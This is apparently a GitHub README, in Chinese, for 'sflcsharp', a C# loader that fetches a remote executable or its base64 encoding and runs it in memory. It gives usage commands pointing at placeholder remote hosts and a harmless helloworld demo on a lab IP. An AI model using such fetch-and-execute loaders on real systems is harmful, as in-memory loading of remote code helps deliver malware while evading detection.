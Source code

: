 # sflcsharp
更高级的C#加载器，可将远程的C#文件或者base64密码加载到本地内存运行
# usage
-b 参数    
sflcsharp -b http://xxx.xxx.xxx.xxx/x.exe       
-b64 参数
sflcsharp -b64 http://xxx.xxx.xxx.xxx/x.txt   
这个txt文件里面存储的是某exe文件的base64编码的表示，可以用ftob64脚本文件来实现这个操作。   
这边可以使用此仓库中自带的hw.txt文件与helloworld.exe文件来做实验.

# 执行效果
我们提前在ip为10.92.52.27的主机上传了两个文件，一个为helloworld.exe，一个是此文件的base64密文形式。此exe文件执行效果为在命令输出fffffff，如下图所示：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200924103030584.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODc0OTMw,size_16,color_FFFFFF,t_70#pic_center)
这时候使用sflcsharp的-b参数来加载远程的c#语言的exe文件：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200924103205931.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODc0OTMw,size_16,color_FFFFFF,t_70#pic_center)
使用-b64参数来加载远程的b64密文：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200924103353619.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODc0OTMw,size_16,color_FFFFFF,t_70#pic_center)
